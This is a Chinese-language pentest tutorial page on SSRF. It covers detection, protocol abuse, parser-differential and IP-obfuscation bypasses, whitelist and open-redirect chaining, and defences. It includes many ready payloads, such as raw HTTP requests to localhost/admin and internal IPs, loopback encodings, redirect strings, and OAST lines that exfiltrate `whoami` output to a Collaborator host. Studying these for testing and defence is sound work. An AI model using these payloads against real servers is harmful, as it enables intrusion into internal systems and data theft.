 ```yaml
---
sidebar_position: 3
tags: [OWASP, SSRF]
title: SSRF
sidebar_label: SSRF
description: 介绍 SSRF 注入漏洞&ByPass&利用
slug: /penetration/OWASP/3
---
```

# SSRF
## 介绍
SSRF 是一种**由攻击者构造请求, 由服务端发起请求**的安全漏洞, 因此一般情况下，SSRF攻击的目标是外网无法访问的内部系统（正因为请求是由服务器端发起的，所以服务器能请求到与自身相连而外网隔离的内部系统）
:::tip
简而言之：SSRF利用存在缺陷的Web应用作为代理攻击远程和本地的服务器, 也可以直观的理解为是一个代理服务器
:::

## Exploit

一般而言, 对于 SSRF 漏洞的最大危害是 `突破了网络边界` , 基本可以达到下面几种危害(但具体能做到哪种程度还需要根据业务环境来判断)
- 扫描内网, 获取主机、端口的情况
- 内网系统攻击: 比如攻击内网 Redis
- 读取文件

:::tip[SSRF 的分类]
- 回显 SSRF : 这种比较简单, 直接响应数据就可以实现判断
- 无回显 SSRF : 难度比较大, 一般可以通过响应时间等来进行判断
:::

在寻找 SSRF 类型漏洞时, 我们应当去捕获对应的 HTTP 和 DNS 交互内容可以使用:

- [beeceptor](https://beeceptor.com/)
- [canarytokens](https://canarytokens.org/generate)
- [requestbin](https://requestbin.com/)
- [pipedream](https://pipedream.com/workflows)
- [webhook.site](https://webhook.site/)
- [interactsh](https://github.com/projectdiscovery/interactsh)
- [ssrf-sheriff](https://github.com/teknogeek/ssrf-sheriff)

### 定位漏洞
通常来说, 根据链接来判断是否存在 SSRF 漏洞是最为直接的方式, 比如 : URL 关键参数
![20240426100728](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240426100728.png)

### 访问后台页面
如果目标存在 SSRF 漏洞, 且存在回显的时候可以使用这种方式来访问后台 (因为一部分网站禁止非本地访问后台)
```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
```

### 协议利用
利用可以利用这种方式扫描内网、查看文件、或者做一些其他操作

* `file://` : 查看文件
* `http://` : 探测内网存活主机
* `dict://` : 探测内网端口
* `sftp://`
* `tftp://`
* `ldap://`
* `gopher://`

### URL 解析绕过

这是orange在blackhat大会上提出的 [A-New-Era-Of-SSRF-Exploiting](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)，利用语言本身自带的解析函数差异来绕过检测，在该ppt中举例了大量不同编程语言的url解析函数对url解析的差异，从而导致check_ssrf和do_curl解析不同导致的绕过, 我们在此以 Python 作为举例

```py
import urllib3
from urllib.parse import urlparse

if __name__ == "__main__":
    url = "http://baidu.com\@qq.com"
    print(urllib3.get_host(url))
    print(urllib3.util.parse_url(url).host)
    print(urlparse(url).hostname)
```
<div style={{textAlign:'center'}}>
  ![20240426102031](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240426102031.png)
</div>

可以看到，对于`http://baidu.com\@qq.com` 来说，urllib3取到的host是baidu.com，而urllib取到的host是qq.com, 如果在check_ssrf中解析url函数用的是urllib3，而业务代码发送请时采用的是urllib，两者之间的解析差异就会导致绕过的情况。

### OAST SSRF

类似于 DNS 隧道技术

```html
url=http://3iufty2q67fuy2dew3yug4f34.burpcollaborator.net?`whoami`
url=http://`whoami`.burpcollaborator.net
```

### DNS rebinding

### SSRF新型攻击手法—When TLS Hacks You

## 防御
- 禁止不必要的协议 : `file://` 、`gopher://` 、`dict://` 等
- 统一错误消息, 避免出现根据错误消息判断端口状态等情况
- 禁止 302 跳转，或者每个跳转时进行检查是否是内网 IP
- 设置白名单或限制内网 IP

## ByPass


### 更换 IP 地址写法
这种方式多用于绕过黑名单

```bash
http://2130706433/
http://017700000001/
http://localhost/         # localhost就是代指127.0.0.1
http://0/                 # 0在window下代表0.0.0.0，而在liunx下代表127.0.0.1
http://[0:0:0:0:0:ffff:127.0.0.1]/    # 在liunx下可用，window测试了下不行
http://[::]/           # 在liunx下可用，window测试了下不行

http://127。0。0。1/       # 用中文句号绕过
http://①②⑦.⓪.⓪.①
http://127.1/
http://127.00000.00000.001/ # 0的数量多一点少一点都没影响，最后还是会指向127.0.0.1
```

### 白名单绕过

* @ : 允许我们在主机名之前插入凭据
  ```url
  <user>:<password>@<host>:<port>/<url-path>

  <http://abc@127.0.0.1>
  实际上是以用户名abc连接到站点127.0.0.1，同理
  ```
*  `#` 用于指示 URL 片段
    ```url
    <https://evil-host#expected-host>
    ```
* 用 DNS 命名层次结构将所需输入放入我们控制的完全限定 DNS 名称
  ```url
  <https://expected-host.evil-host>
  # 原理是DNS解析。xip.io可以指向任意域名，即
  127.0.0.1.xip.io，可解析为127.0.0.1
  ```
* 应用程序指定 `https://website.com` 开头的规则，我们可以在我们的域名上创建子域来规避： `http://website.com.attackers.com`
* URL 编码混淆

### 开放重定向
有时可以通过利用开放重定向漏洞来规避任何类型的基于过滤器的防御。 在前面的 SSRF 示例中，假设用户提交的 URL 被严格验证以防止恶意利用 SSRF 行为。但是，允许使用 URL 的应用程序存在开放重定向漏洞。如果用于发出后端 HTTP 请求的 API 支持重定向，您可以构建一个满足过滤器的 URL，并将请求重定向到所需的后端目标。 例如，假设应用程序包含一个开放重定向漏洞，其中包含以下 URL：

```url
/product/nextProduct?currentProductId=6&path=http://evil-user.net
```

返回重定向到：

```url
http://evil-user.net
```

可以利用开放重定向漏洞绕过URL过滤，利用SSRF漏洞，方法如下：

```html
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```

> 此 SSRF 漏洞利用之所以有效，是因为应用程序首先验证提供的`stockAPI`URL 是否位于允许的域中，而事实确实如此。然后应用程序请求提供的 URL，这会触发打开重定向。它遵循重定向，并向攻击者选择的内部 URL 发出请求。

```bash
/%09/google.com
/%5cgoogle.com
//www.google.com/%2f%2e%2e
//www.google.com/%2e%2e
//google.com/
//google.com/%2f..
//\\google.com
/\\victim.com:80%40google.com
```